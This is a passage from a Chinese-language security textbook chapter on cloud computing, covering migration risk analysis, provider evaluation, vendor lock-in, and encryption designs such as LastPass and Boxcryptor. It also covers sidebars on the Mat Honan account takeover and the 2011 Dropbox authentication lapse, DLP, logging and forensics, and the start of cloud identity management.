**私有云**拥有由拥有该组织专门运营和使用的基础设施，但云管理可能外包给第三方。**社区云**由多个组织共享，通常旨在实现共同目标。例如，社区云中的协作者必须就其安全需求、策略和使命达成一致。它也可能将云管理外包给另一个组织。**公有云**面向公众开放，由销售云服务的组织拥有。**混合云**由两种或多种类型的云组成，通过技术连接，使数据和应用程序能在基础设施中移动，以在云之间平衡负载。

因此，云软件并非照常营业。它必须提供服务，而不依赖于特定位置。它还必须高度模块化，具有低耦合和易于互操作性——这些都是良好代码的特征，正如第 3 章所讨论的。

## 8.2 迁移至云端

在将功能或数据迁移到云端之前，考虑利弊非常重要。迁移到云端可能困难且昂贵，撤销迁移同样昂贵。虽然每种云产品都有其自身的风险和收益，但许多指南可以帮助你了解你的功能和数据是否应迁移到云环境，以及哪种云产品最有可能满足你的安全需求。

### 风险分析

风险分析应成为任何重大安全决策的一部分，包括迁移到云服务。我们在第 10 章中详细讨论风险分析，但目前，以下是高层步骤，以及每一步如何适用于采用云服务的简要讨论：

**1.** **识别资产**。迁移到云服务通常意味着迁移功能和数据。记录可能迁移到云服务的每个功能和数据类型非常重要，因为很容易失去跟踪而遗漏重要内容。

**2.** **确定漏洞**。考虑云服务时，务必考虑云特有的漏洞。这些通常源于必须通过互联网连接访问系统、与潜在对手共享硬件和网络、以及信任云提供方。也务必考虑反面：不迁移到云端可能意味着可用性降低、管理系统的员工素质较低、以及更差的补丁管理。

**3.** **估算被利用的可能性**。许多漏洞在云环境中被利用的难易程度会有所不同，不同的云服务模型和提供方之间也存在差异。权衡选项时，务必考虑这些差异。

**4.** **计算预期损失**。你的预期损失将取决于多种因素，包括成功攻击的后果和你响应攻击的能力。考虑迁移到云端如何影响这些因素：典型的云提供方是否比你的公司能更好地响应攻击？以 DDoS 为例，答案很有可能是肯定的。

**5.** **调查并选择新控制措施**。此步骤最重要的是确定云服务需要具备哪些控制措施，才能充分管理你的风险。这些也可能是你为增强云产品而实施的控制措施。你的数据是否需要加密？你需要云提供方提供什么日志记录能力？认证和访问控制选项呢？


## 6. 预估节省

迁移到云服务通常以成本节省为理由，但有时这些节省无法实现。公司可能预估每年在数据中心成本上节省 100 万美元，却没意识到迁移的副作用将在新的安全控制上花费 150 万美元。权衡选项时，尝试了解你可能承担的所有成本。

无论你是支持还是反对迁移到云服务，彻底的风险分析将帮助你仔细考虑所有选项，并提出合理、深思熟虑的论据。太多的公司和政府机构浪费了大笔资金，或者更糟，遭遇灾难性的安全漏洞，只因为他们找不到时间做这项工作。

***

**迁移到云模型会带来必须纳入考量的风险。**

***

### 云提供方评估

评估云提供方是一项两步任务：第一步是确定你的云服务需求。从安全角度来看，你的大部分需求将直接源自上一节讨论的风险分析。风险分析产生一份必要的安全控制清单，这些控制措施将构成你对云提供方安全要求的主体。虽然你需要的许多安全控制将特定于你的系统，但以下是几个常见的类别：

*   认证、授权和访问控制选项
*   加密能力
*   日志记录能力
*   事件响应
*   可靠性/正常运行时间

我们将在本章后面更深入地讨论前四个类别。正常运行时间通常通过服务级别协议（`SLA`）来处理，这是提供方和客户之间的合同，设定了服务性能预期。`SLA` 通常保证服务正常运行时间占总时间的百分比（例如 99.99% 的正常运行时间），如果正常运行时间低于该数字，服务提供方将支付罚金。

#### 评估云服务提供商的第二步：确定符合要求的提供商

评估云服务提供商的第二步是确定哪些提供商满足您在第一步中创建的需求列表。这可能比听起来困难得多。云服务提供商在披露安全架构信息的程度上差异很大。一般来说，大型提供商比小型提供商更有可能披露更多细节，`IaaS` 提供商比 `PaaS` 或 `SaaS` 提供商更有可能披露更多细节。原因在于实际操作：大型提供商通常拥有更多资金和人员来处理此类问题。`IaaS` 服务非常复杂且可定制，客户需要了解服务的架构，以便理解如何配置它们。对于 `SaaS` 和 `PaaS`，许多提供商只有在认为这些安全细节有利于广告宣传时才会记录它们。Sidebar 8-3（参见第 563 页）在另一个主题上，作为额外内容给出了一个云服务提供商宣传误导性安全控制的有趣例子。

除了阅读提供商的安全文档，您还可以进行安全评估。不幸的是，足够深入且有价值的安全评估也将非常昂贵且耗时，因此您可能无法对许多提供商进行此类评估。然而，还有其他一些缩小提供商范围的选项。其中之一是美国政府的联邦风险和授权管理计划（`FedRAMP`），它要求云服务提供商证明符合数百项安全控制，才能与联邦政府开展业务。由于 `FedRAMP` 批准的提供商列表是公开的，这可以成为您评估的宝贵输入。另一个提供类似价值的标准是支付卡行业数据安全标准（`PCI DSS`）。与 `FedRAMP` 一样，`PCI DSS` 合规性要求云服务提供商证明他们已具备一组最低限度的适当安全控制。还有一个评估云服务提供商安全性的有趣新选项：云安全联盟（`CSA`）的安全、信任与保证注册表（`STAR`）。`STAR` 旨在成为云服务提供商安全实施的综合注册表，并提供许多云服务提供商的详细自我评估。

#### 公有云、社区云、私有云还是混合云？

选择云部署模型或许是您在云迁移过程中将提出的最基本的安全问题，它将驱动并受您的其他安全要求驱动。虽然私有云和社区云通常比公有云更昂贵，但成本差异取决于您组织的规模。如果您的公司或一组类似公司拥有足够的综合需求来证明建设一两个大型数据中心的合理性，您就可以利用公有云提供商所利用的一些规模经济。

另一个考虑因素是您的系统是否适合公有云。例如，如果您的本地服务器与云之间将有持续的、高带宽的数据传输，私有云可能更合理。如果您的数据或功能具有非常严格的机密性或完整性要求，私有云或社区云也可能更合理，因为这些云部署模型可以减轻与潜在对手共享基础设施带来的威胁。您也可能能够使用一种折中方案，一种“公有云中的社区”云，例如 Amazon 的 `U.S. GovCloud`。`GovCloud` 托管在 Amazon 的数据中心中，但仅对美国政府客户开放，并构建为满足这些客户的安全和法规要求。只要您能识别出具有类似需求的其他客户，定制云产品的潜力就是无限的。

#### 切换云服务提供商

在选择云服务提供商时，经常被忽视的一个担忧是**供应商锁定**。供应商锁定是指客户必须继续从他们一直在使用的同一供应商处购买某种类型的产品，因为迁移到不同供应商产品线的前期成本将显著高于继续使用现有供应商的短期成本。这种情况最常见的原因是供应商之间的不兼容性。例如，假设您有一部 iPhone，并且已经在 iPhone 应用上花费了 1000 美元。现在假设您正在考虑切换到 Android 手机。您的 iPhone 应用与 Android 不兼容，因此要切换，您将不得不再花 1000 美元购买同等应用的新副本。除此之外，由于 iPhone 与其他 Apple 产品紧密绑定，您可能会发现自己需要更换 iPad 和 MacBook 才能实现以前的功能。因此，从一个手机供应商切换到另一个供应商实际上可能花费数千美元，即实际手机价格的许多倍。

***

**供应商锁定会阻碍您切换提供商。**

***

当您运行的业务依赖云服务时，在服务提供商之间迁移可能非常昂贵。不幸的是，这可能成为一个重要的安全问题，因为许多潜在的安全和可靠性相关事件可能会驱动提供商的变更：

*   您的提供商被证明存在无法轻易修复的重大安全漏洞。
*   您的提供商更改其功能或 `API` 规范，导致不再与您的需求兼容。
*   您的提供商被另一家公司收购，而该公司以某种方式与您的需求不兼容，例如您的竞争对手。
*   您的提供商将其业务迁移到您被禁止存放数据的外国。
*   您的提供商倒闭。

因此，在考虑云服务时，了解您的迁移选项成为一个重要的安全顾虑。

不同类型的云服务代表不同的迁移挑战。`SaaS` 产品通常因与竞争服务不兼容而带来迁移挑战。许多 `SaaS` 提供商将大量客户数据存储在专有格式中，并允许客户通过专有 `API` 访问这些数据。对于某些提供商来说，提供工具让客户将这些数据批量导出为开放格式可能不符合其最佳利益。专有 `API` 还意味着客户构建在 `SaaS` 之上的任何应用程序在迁移到新提供商后很可能需要重写。不幸的是，具有友好迁移功能的 `SaaS` 产品的可用性取决于应用程序类型，因此在某些情况下供应商锁定可能是不可避免的。

`PaaS` 提供商为客户提供构建托管云应用程序的工具。它们通常允许客户使用基于云的编译器（或脚本引擎）、`API` 和数据库进行编程。在这些代码之下，提供商处理托管的各个方面。与 `SaaS` 一样，专有 `API` 可能带来迁移挑战。幸运的是，`PaaS` 的通用性质有助于缓解这一问题，因为大多数 `PaaS` 提供商支持客户已经熟悉的常见编程语言、库和数据库工具。

##### IaaS 产品与云作为安全控制

###### IaaS 标准化与迁移

`IaaS` 产品是三种服务模型中最标准化的，因为它们必须保持与常见操作系统和网络协议的兼容性。（侧边栏 8-1 描述了一种利用这一事实的巧妙方法。）`API` 挑战与 `PaaS` 模型中的大致相同，尽管在这种情况下，这些 `API` 侧重于对 `IaaS` 虚拟机（`VM`）的控制和交互。`VM` 本身通常易于迁移，因为有工具可将 `VM` 从几乎任何标准文件格式转换为另一种格式。然而，某些 `VM` 可能会导致问题：`IaaS` 提供商提供具有独特功能的专用 `VM`（例如，原本仅作为集成设备提供的防火墙产品），并且他们可能拥有这些产品的独家权利。根据客户网络配置的广泛程度，复杂性也可能成为切换 `IaaS` 提供商时的一个问题。

###### 云作为安全控制

虽然将数据和功能迁移到云端确实存在风险，但云服务在许多方面可以成为有价值的安全工具。最明显的是，云服务通常擅长缓解单点故障。这种优势体现在几种形式中。

> **云计算可缓解单点故障的风险。**

####### 地理多样性

如果您只有一个数据中心，您将面临各种本地化威胁：自然灾害、火灾和互联网中断，仅举几例。除了安全问题，仅拥有一个数据中心可能会不可接受地增加长距离通信的网络延迟。云服务可能是一种实现地理多样化的具有成本效益的方式。一些提供商甚至允许客户从数据中心列表中选择一个来托管其功能和数据；如果您有此选项，请务必选择一个距离主数据中心足够远的辅助数据中心，使其面临不同的风险。

####### 侧边栏 8-1：云 RAID

2010 年，康奈尔大学的三位研究人员设计了一种巧妙的方法来对抗云存储的供应商锁定：与多个云存储提供商合作，并将每个提供商视为巨大 `RAID` 阵列中的单个硬盘驱动器。在提交给 ACM 云计算研讨会的一篇论文中 [ABU10]，Hussam Abu-Libdeh、Lonnie Princehouse 和 Hakim Weatherspoon 描述了一种在各种云提供商之间对数据进行条带化存储的方法，同时跨提供商保持足够的冗余，以便在某个提供商不可用时重建所有数据——这与 `RAID 5` 在小得多的规模上使用的方法类似。

研究人员的原型工具 `Redundant Array of Cloud Storage (RACS)` 充当云存储请求的代理，然后智能地将用户的请求分配给许多不同的提供商。为了帮助缓解该工具成为单点故障的担忧，多个 `RACS` 实例可以协调并代表单个客户行事。研究人员估计，与传统云存储相比，这种方法的成本将高出约 11%——主要归因于冗余所需的额外数据——但比在单独的存储提供商处维护两份完整的数据副本要便宜得多。此外，它极大地降低了供应商锁定的担忧，因为从一个提供商迁移出去将意味着仅移动您的一小部分数据。

虽然这项研究可能尚未准备好进行商业部署，但它为管理各种云迁移风险指明了一个有趣且潜在富有成效的方向。

####### 平台多样性

本书讨论的许多网络攻击都是针对特定应用程序、操作系统或协议的。您的云提供商很可能运行与您不同的操作系统、应用程序和协议，此外，这些提供商部署和配置它们的方式也不同。这意味着它们拥有与您不同的一组漏洞，从而降低了您的系统和云提供商的系统同时遭受相同攻击的可能性。

####### 基础设施多样性

除了软件栈，您和您的云提供商之间许多其他潜在的脆弱点也可能不同，包括硬件、网络配置、安全控制、安全人员素质、IP 地址和供应商。

许多迁移到云服务的公司不会妥善考虑单点故障的风险。他们不会利用云服务来缓解该风险，反而会使云服务成为他们的单点故障（有关这有多危险的示例，请参见侧边栏 8-2）。即使云提供商在多个地理位置分散的数据中心复制您的服务，您仍然必须担心这些数据中心共享许多共同漏洞，以及提供商倒闭的风险。如果您决定通过外包给两个云提供商而不是一个来缓解这些风险，您将多出一个需要注意的问题：许多云提供商本身就是更大云提供商的客户。如果您的一个云提供商正在向另一个销售服务，您可能并没有您想象中的那种冗余。

####### 侧边栏 8-2：一个人的单点故障

2012 年 8 月，记者 Mat Honan 的数字生活被彻底颠覆。他正陪女儿玩耍，突然他的 Apple iPhone 关机了。手机重启后，他的所有数据都不见了。幸运的是，Honan 设置手机定期备份到他的 Apple 笔记本电脑上，所以他当时并不担心。不久后他打开笔记本电脑，屏幕变灰，他意识到遇到了真正的麻烦。不久之后，Honan 发现，除了手机，他的笔记本电脑和 Apple iPad 也被远程擦除了，而且他的 Gmail 和 Twitter 账户也被黑了。

以下是事件的简略版本 [HON12]：黑客从最初的目标——Honan 的 Twitter 账户（“@mat”）入手。该 Twitter 账户链接到他的个人网站，网站上列出了他的 Gmail 地址。当黑客前往 Gmail 尝试重置 Honan 的账户密码时，Gmail 向他们显示了 Honan 模糊处理的备用紧急邮箱地址：`m****n@me.com`。`me.com` 归 Apple 所有。黑客正确地猜测该 `me.com` 地址将是 Honan 用于 Apple iCloud 的用户名，iCloud 是一项将用户的所有 Apple 设备与存储在 Apple 数据中心的数据联系在一起的服务。

因为黑客以前实施过此类攻击，他们知道入侵 iCloud 账户所需的唯一额外信息就是 Honan 的邮寄地址和信用卡号后四位。邮寄地址很容易获取：他们只需搜索 Honan 网站的 whois 记录。为了获取信用卡后四位数字，黑客去了 Amazon。他们正确地假设 Honan 的 Amazon 用户名将是他的 Gmail 地址，并凭借这一点以及他们已掌握的信息，成功诱骗 Amazon 显示了该账户关联信用卡的后四位数字（有关攻击这一部分的详细信息，请参阅 *Wired* 文章 [HON12])。

一旦黑客掌握了那四位数字，他们就拥有了让 Apple 客服允许他们进入 Honan iCloud 账户所需的一切。得益于一项非常有用的 iCloud 安全功能——允许用户在设备被盗时远程擦除 Apple 设备——攻击者能够在几分钟内删除 Honan 所有设备上的数据。

也许这个故事最令人惊讶的部分是 Honan 了解攻击经过的方式：黑客告诉他的。其中一名黑客联系了他，作为不提起诉讼的承诺交换，详细讲述了整个事件。

虽然人们可以从这个故事中吸取许多宝贵的安全教训，但识别并消除单点故障是其中重要的一课。显而易见的单点故障在于霍南的设备与其 iCloud 账户之间的关联。他使用 Apple 笔记本电脑备份 Apple 手机，并授权其 Apple iCloud 账户拥有远程擦除笔记本电脑和手机的权限。除此之外，正因为他的所有账户相互交织——尽管这种方式并不明显——才使得这次攻击成为可能。

***

除了主流云服务为业务运营提供冗余和多样性外，其他云服务也应运而生，专门专注于安全运营。许多安全工具处理海量流量，因此客户难以将其外包给云提供商（这需要将所有流量路由通过提供商），但有少数工具非常契合云范式：

*   **邮件过滤**。`SMTP` 已经在互联网上将邮件路由至各地的服务器，因此增加一跳到云提供商进行过滤几乎不费吹灰之力。云提供商在将邮件转发给客户之前会移除垃圾邮件和危险附件，并将可疑邮件隔离在隔离区，以便客户安全地检查它们。
*   **DDoS 防护**。基于云的 DDoS 防护服务会更新您的 `DNS` 记录，插入其服务器作为代理，位于客户面向外部的服务与互联网之间。它们维护足够的带宽来应对攻击流量洪峰，一旦检测到攻击，便会在恶意数据包到达客户之前开始过滤。
*   **网络监控**。日志分析和 `SIEM` 工具（参见第 6.9 节）对处理器、内存和存储要求极高，且需要专业知识才能有效使用。为帮助公司应对这些问题，一些基于云的解决方案应运而生。客户可将所有日志数据转发给运行在看似无限基础设施上的 `SIEM` 云提供商，从而消除因存储不足导致数据丢失或因处理器限制导致查询耗时过长的担忧。拥有日志分析和事件响应专业知识的客户可远程登录 `SIEM` 并像在本地硬件上运行一样使用它。无法负担足够专业知识的客户可将部分或全部 `SOC` 运营外包给云提供商。

## 8.3 云安全工具与技术

云安全与一般信息安全并无本质区别，但它确实呈现了一个独特的威胁向量：与潜在对手共享处理、存储和通信资源。因此，保护云服务的标准方法是使用本书其他章节讨论的相同基础工具——加密、安全编程、网络安全产品等——但要对其进行调整以适配常见的云产品，并应对共享资源带来的新威胁。

### 云中的数据保护

使用公共云服务——无论是 `SaaS`、`PaaS` 还是 `IaaS`——很可能意味着通过互联网将私有数据发送给服务提供商，并将私有数据存储在云提供商的服务器上。虽然不同的云服务模型赋予您不同程度的安全控制权，但您有责任选择能够确保（或允许您确保）您的数据——以及您的合作伙伴和客户的数据——免受篡改和泄露的云产品。

保护传输中数据相对简单，建立在您在第 6 章学到的技术之上。如果云服务是 `SaaS` 或 `PaaS`，通信很可能通过 `HTTP` 进行，因此您需要选择默认要求 `TLS` 且配置良好的提供商（即要求使用无已知实际漏洞的密码套件，并使用可信的 `CA`）。虽然配置良好的 `TLS` 对 `IaaS` 很重要，但它不太可能是您唯一的加密通信形式。对于在受保护飞地之外通信但不支持 `TLS` 的服务，`SSH` 和 `VPN`（例如 `IPsec`）是标准保护机制。与 `TLS` 一样，配置——特别是您对密码套件的选择——可能意味着强安全与弱安全的区别。像 `TLS` 一样，`SSH` 和许多 `VPN` 产品也支持证书，除了作为强有力的“您拥有的东西”认证形式外，还能提供 `mutual authentication`（双向认证）的额外好处，允许客户端和服务器相互认证。

#### 云存储

虽然人们自然会将云存储与存储即服务（`STaaS`）产品（如 `Dropbox`）联系起来，但事实是几乎每个云提供商都存储客户数据。存储是允许客户上传、共享和销售照片的 `SaaS` 产品（例如）以及允许客户创建、编辑和共享文档的 `SaaS` 办公套件的组成部分。`PaaS` 产品通常包含用于存储应用数据的云托管数据库。`IaaS` 提供商存储客户 `VM`、网络配置信息以及客户可能上传的任何其他数据。

从数据存储角度考虑云解决方案时，您应考虑许多安全相关问题：

*   **我将存储的数据有多敏感？** 数据敏感度将是决定您所需加密和访问控制能力的关键因素。如果您打算创建任何人都可编辑的公开文档，可以使用不提供加密或访问控制的服务。如果您要备份包含私人个人信息的文件，加密和访问控制至关重要。
*   **我是否需要与他人共享数据？如果需要，需要何种访问控制？不同云存储产品的访问控制选项差异巨大。** 有些产品允许拥有链接的任何人读取数据，有些提供多种与其他用户共享的选项，还有些仅允许创建数据的用户访问。对于密码和账号等敏感信息的存储，共享功能通常不是理想特性。对于创建团队共享项目文件的公共空间，与特定用户列表共享访问权限的能力是必需的。
*   **数据是否受出口管制或其他法规约束？** 云产品可能使遵守出口管制等法规变得困难。出口管制是限制某些敏感数据流出其原籍国的法规。许多云提供商在多个国家维护用户数据，还有更多提供商雇佣不同国家的公民担任可查看用户数据的职位。无论您需要遵守何种法规，您可能都难以找到满足您需求的云提供商，甚至更难审计他们以确保其言行一致。


# 云存储安全

当您使用公共云服务时，您的数据与无数其他客户的数据存储在同一组存储设备上。这些其他客户构成威胁，您需要确保有足够的访问控制来保护您的数据免受该威胁。虽然几乎任何云提供商都会使用逻辑访问控制防止客户互相访问数据，但这一层安全防护通常是不够的。如果该访问控制失效或攻击者突破它，您的数据将毫无保护。侧边栏 8-3 是一个绝佳案例。

> **共享存储涉及来自共享邻居的访问威胁。**

在公有云场景中，保护数据机密性的最低要求是使用行业标准的对称加密算法（如 `AES-256`），并为每个用户分配独立的加密密钥。供应商在使用单个密钥加密大量数据时需要考虑的一个实际问题是：使用新密钥对千兆字节级的数据进行重新加密是一个耗时且消耗资源的过程。因此，云服务提供商应力求永远不需要对任何用户的数据进行换密。相反，云服务提供商可以考虑用于加密本地硬盘驱动器的方法：生成一个强健、随机的“主”密钥，用于加密和解密数据；并使用一个不同的、可更改的“用户”密钥来加密和解密主密钥。用户密钥应通过基于密码的密钥派生函数（KDF）（如 `PBKDF2` [KAL00]）直接与用户的密码绑定。当用户想要更改密码时，云服务提供商可以使用 KDF 生成一个新的用户密钥，并仅重新加密主密钥。

> 为大量加密数据更换加密密钥非常耗时。使用主密钥和用户密钥的协议使得更换操作在时间利用上变得高效。

当然，如果存储提供商保管用户的密钥，那么提供商的员工，以及任何成功攻击其服务器的人，仍然可以访问用户的私有数据。真正需要机密性的用户应寻找秉持“不信任任何人”（TNO）理念、且不保管访问用户数据所需密钥的提供商。

> 与云存储提供商共享加密密钥可能会暴露敏感数据。

## 边栏 8-3 Dropbox 取消身份验证

2011 年 6 月 19 日下午，流行的云存储服务 Dropbox 停止了用户身份验证，持续了四个小时。一个编码错误导致其登录系统开始接受任意密码，使所有用户账户完全处于无保护状态。在短短几个月内，这是安全研究人员第二次大声疾呼 Dropbox 的身份验证问题；同年 4 月，安全研究员 Derek Newton 发现，仅从用户硬盘驱动器复制一个小型数据库文件，就足以获得对该用户 Dropbox 文件的完全访问权限。

在 2011 年 4 月之前，Dropbox 对其安全性做出了强有力的承诺。关于加密，Dropbox 网站称：“存储在 Dropbox 服务器上的所有文件都经过加密（AES256），没有您的账户密码无法访问。”关于隐私，网站声称“Dropbox 员工无法访问用户文件，在排查账户故障时，他们只能访问文件元数据。”安全研究员 Christopher Soghoian 公开指出这些声明似乎与他观察到的网站运作方式相矛盾后不久，Dropbox 缓和了其声明。在 *TechRepublic* 记者 Michael Kassner 对 Dropbox 高管 ChenLi Wang [KAS11] 的采访中，询问为何 Dropbox 的加密声明被简化为简单的“存储在 Dropbox 服务器上的所有文件都经过加密（AES 256）。”Wang 的回应是：“我们是在解释您的数据有多重保护：文件经过加密存储，此外还受到您的访问凭据保护。然而，安全专业人员可能会错误地推断加密密钥源自用户的密码，因此我们将这两点分开表述以求清晰。”公司对隐私声明也做了类似的全面修改，称员工被“禁止”查看用户文件内容，而非“无法”查看。

如果 Dropbox 采取了为每个用户签发相对唯一的、基于密码派生的加密密钥这一小小的额外步骤，其明显的身份验证失误几乎不可能发生。如果是这样，编码错误可能仍会暴露用户账户，但几乎肯定不会暴露用户存储的文件。Dropbox 选择不这样做的一个可能原因是经济因素：存储未加密的文件，或所有文件使用相同的加密密钥，对服务提供商而言需要的存储空间少得多，因为这让他们避免了存储同一文件的多个副本。例如，当成千上万的用户备份同一个版本的 Windows 时，他们将拥有许多共同的文件。如果 Dropbox 能识别出重叠部分，他们只需存储每个文件的一份副本，然后维护所有备份该文件的用户记录，从而节省大量存储空间。为用户提供真正的机密性（包括防范 Dropbox 自身），将意味着放弃这一省钱策略。

加密方案声誉最好的云存储服务倾向于详细发布其加密方案，许多值得信赖的独立安全和密码学研究人员会定期审查此类方案的正确性。在寻找能保护您机密性的云存储提供商时，请务必在可能的范围内了解他们计划如何保护您的数据。

## TNO 实现案例

Lastpass 是一款 SaaS 产品，其在实施 TNO 方面拥有良好的技术方案。Lastpass 是一款密码管理器，这意味着它允许客户存储用于访问其他网站的登录信息。密码管理器服务于宝贵的安全目的——帮助用户创建复杂多样的密码而无需全部记住它们——但前提是用户存储在其中的登录信息（“密码数据库”）保持机密。

如图 8-2 所示，Lastpass 通过从不让用户的 `AES` 解密密钥（或任何可能通向这些密钥的信息）发送到 Lastpass 服务器来实现这一点。Lastpass 要求用户使用用户名和“主密码”登录本地客户端。为了保护主密码，客户端使用一种形式的 `PBKDF2`，用随机数据对主密码进行加盐，并使用大量（默认 5001 次）`SHA-256` 轮次进行哈希处理。生成的哈希值是 Lastpass 服务器唯一能看到的用户主密码残留，它无法用于解密用户的密码数据库，也无法用于派生解密密钥。该哈希值仅允许客户端登录服务器并下载加密的密码数据库。客户端从主密码派生解密密钥的方式与生成登录哈希值的方式相同，但少用一轮 `SHA-256`（5000 轮而非 5001 轮）。这种对哈希的巧妙运用，使客户能在很大程度上免受针对 Lastpass 服务的攻击。


**图 8-2** Lastpass TNO 实现

但如果您需要在不提供 TNO 的云存储服务上实现 TNO 怎么办？名为 Boxcryptor 的产品提供了一个引人入胜的示例解决方案。Boxcryptor 是一款加密客户端，可增强 Dropbox 等通用云存储提供商的功能。如图 8-3 所示，Boxcryptor 客户端会为客户上传到云端的每个文件创建一个唯一的 `AES` 加密密钥（“文件密钥”）。然后，它使用客户唯一的 `RSA` 公钥加密该文件密钥，并将加密后的文件密钥与加密文件一起存储。当客户想要从云存储中检索并解密文件时，客户端使用客户的 `RSA` 私钥解密文件密钥，再用文件密钥解密文件。这种方法的一个优点是它天然适合文件共享：如果客户想与朋友共享文件，Boxcryptor 客户端可以使用朋友的 `RSA` 公钥加密文件密钥的第二个副本。这可以以极低的存储成本重复执行，以支持更多用户或群组。有趣的是，但或许并不令人惊讶，勒索软件 Cryptolocker（它加密受害者文件并勒索赎金）使用的基本上就是同一种加密方案。


**图 8-3** Boxcryptor TNO 实现

### 数据丢失防护

数据丢失防护（Data Loss Prevention，简称 DLP）正如第 6 章所述，在云存储环境中可能难以实施。DLP 产品保护公司免受敏感数据丢失的部分方式，是提供设备在网络边界监控并阻断流量。当公司将数据和服务迁移至公有云时，用户可以从公司网络外部访问它们，从而完全绕过这些网络边界。

在迁移至公有云时保持 DLP 能力的一种方法，是强制用户通过公司网络进行访问。许多云服务为客户公司提供按源 IP 地址限制用户的选项。如果用户尝试在没有与公司网络建立开放 VPN 连接的情况下（即没有公司拥有的源 IP 地址）从家中或其他地方登录云服务，登录将失败。某些 VPN 提供主机扫描功能，用于检查尝试登录的主机。这些主机扫描器可配置为确保近期运行过恶意软件扫描、存在公司证书以及正在运行特定应用程序。对于依赖软件代理进行 DLP 的公司而言，此功能非常有用，因为主机扫描器可以阻止未启用 DLP 代理的系统登录。

迁移至云后保持 DLP 能力的另一种解决方案，是在云环境的网络边界部署 DLP 功能。此解决方案通常仅适用于 IaaS 部署，因为它们通常足够灵活，允许客户将 DLP 作为 VM 部署，并配置其 VM 网络，使所有出站流量必须路由通过该 DLP VM。

### 云应用安全

在云环境中编写安全软件与在任何其他环境中并无不同，因此第 3 章是该主题的绝佳切入点。事实上，在许多方面，编程是安全社区在云领域最具经验的方面。Web 托管——一种允许客户在服务提供商的硬件和软件栈之上构建自定义 Web 应用程序的服务——早在 1990 年代初就成为了第一个 PaaS，远在“云”一词被创造出来之前。自那以后，开发人员就不得不学会在共享环境中保护应用程序。

为云部署编写应用程序时，你需要做出的最大调整是了解威胁是如何变化的。不幸的是，并没有一份你需要担心的具体威胁的综合清单，因为这些威胁在很大程度上取决于你的云环境的具体实现：云计算平台、配置、库等。然而，由于云计算范式，有几个普遍的威胁会随之出现：

* **针对共享资源的攻击**。即使你没有与恶意用户共享云环境，你也几乎肯定会与存在漏洞的应用程序共享。例如，如果多个应用程序共享一个数据库即服务，其中一个应用中的 SQL 注入漏洞可能会影响所有应用 [SUL13]。一项 2012 年的研究发现，在现代硬件和现代管理程序上运行的恶意 VM，在给定几小时的情况下，能够利用侧信道攻击推断出部署在同一系统上的受害者 VM 所使用的私钥 [ZHA12]。**加密侧信道攻击**是一种复杂的数学运算，攻击者通过仔细观察加密操作的副作用（如处理器产生的热量、处理器响应时间等）来推断受害者的加密密钥。

* **不安全的 API**。使用云服务和第三方网站暴露的 API 是构建云应用程序的必要部分。不幸的是，一项针对 2008 年 1 月至 2012 年 2 月云安全事件的调查发现，29% 的云服务中断是由“不安全的接口和 API”引起的 [KO13]。一项 2012 年的研究发现，包括亚马逊和 PayPal 在内的多家主要供应商面向云的 API 中的 SSL 证书验证“完全损坏”，导致通往这些 API 的 SSL 连接容易受到中间人攻击 [GEO12]。

不幸的是，除非对云提供商和合作伙伴进行广泛的安全测试，否则你几乎无法保护自己免受这些问题的影响。最好的准备方式是认识到：你依赖的产品迟早会出现重大漏洞，并确保到那时你已做好响应准备。这可能意味着能够快速打补丁；准备好切换云提供商；或拥有依赖不同产品集和云服务的冗余系统。

### 日志记录与事件响应

在公有云中检测和响应发生的安全事件带来了有趣的挑战。SOC 分析师识别和调查安全事件的主要方式是利用系统日志数据。在普通企业中，安全相关的日志来自多个来源，包括操作系统、恶意软件扫描器、漏洞扫描器、IDS、防火墙和业务应用程序。部分日志数据包含潜在恶意行为的警报，而其他日志数据则帮助分析师围绕潜在安全事件建立上下文感知——谁登录了、运行了什么应用程序以及其他此类有用信息。

如果安全事件特别值得关注——可能是因为后果严重或手法新颖——受害者可能希望通过计算机取证进行更深入的调查。取证调查的主要目标是尽可能可靠地保留尽可能多的相关证据，并以法庭信服的方式进行。这可能意味着在关闭系统电源或将其从网络中移除之前，对内存和硬盘进行快照；妥善保存物理驱动器；并保护缺乏存储空间的设备上的日志文件。

你现在可能已经猜到了，当你在公有云中遭受攻击时，执行上述所有操作的问题在于：你可能无法访问大量必要的数据和功能。在这些场景中，SaaS 产品通常帮助最小，因为它们通常仅向用户提供有限的应用层日志，且无法洞察或控制底层系统和网络。PaaS 稍好一些，因为客户可以完全控制其应用程序生成的日志，有时还可以配置运行时环境日志记录。然而，与 SaaS 一样，PaaS 客户无法控制底层系统 [BIR11]。IaaS 服务为日志记录和取证提供了最灵活的选项，因为它们赋予客户对操作系统、应用程序和虚拟网络的完全控制权。客户可以在这些控制范围内启用任何所需的日志记录，并可以使用 VM 快照——在某一时刻保存和恢复 VM 的确切状态的能力——来实现强大的取证分析和证据保全能力。然而，即使使用 IaaS，许多日志对客户而言也可能不可用，包括由管理程序、底层物理系统和提供商网络生成的日志。

公共云客户为准备事件检测和响应所能做的最重要的事情，是在与提供商编写 SLA 时解决日志记录和取证问题。SLA 可以包含事件通知、证据保存和证据访问的要求；它们还可以指定可用的日志类型和其他潜在的证据来源 [CSA13]。相关数据可能包括来自 Web 服务器、应用程序、数据库、操作系统、虚拟机监视器、网络设备、安全设备和云计算平台的日志，以及网络流量捕获。

然而，仅仅使日志可用是不够的。将日志发送到 SIEM 进行存储和分析，并极其小心地将 SIEM 及其存储从云服务中隔离出来，隔离程度以实际可行的范围为准。为了使 SIEM 发挥作用，它需要来自云服务的近实时日志数据流，但它也需要受到保护，免受可能已渗透云服务的攻击者的恶意影响。识别并消除任何潜在路径，这些路径可能允许云系统中的入侵者删除或修改来自您的 SIEM 或其底层存储的数据。

# 8.4 云身份管理

组织在迁移到公共云服务时面临的常见挑战之一是身份管理。云客户通常将敏感数据和功能移入云环境，因此他们需要一种方法来对访问云中这些资源的用户进行身份验证和授权。身份管理也保护云提供商：他们需要确保访问其服务的用户是客户组织的合法成员，而不是冒名顶替者。

